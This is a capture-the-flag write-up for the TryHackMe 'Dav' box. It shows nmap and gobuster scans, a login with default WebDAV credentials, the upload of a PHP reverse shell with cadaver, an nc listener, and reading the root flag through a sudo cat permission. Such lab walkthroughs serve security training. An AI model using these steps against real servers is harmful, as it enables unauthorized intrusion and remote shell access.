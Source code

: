 # 'Dav' box writeup

## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)

![bg](images/background.jpeg?raw=true "Title")

## Foothold

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is running**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some.**

[login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

[webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

[php](images/php-reverse-shell.jpg)

[php](images/uploaded.jpg)

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``

![werein](images/werein.jpg)

## User escalation

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user.**

``python -c 'import pty;pty.spawn("/bin/bash")'``

![in](images/usermer.jpg)

## Root escalation

+ **Let's run a ``sudo -l`` command to see what commands www-data user can run**

![sudol](images/sudol.jpg)

+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``

![root](images/rootflagoz.jpg)
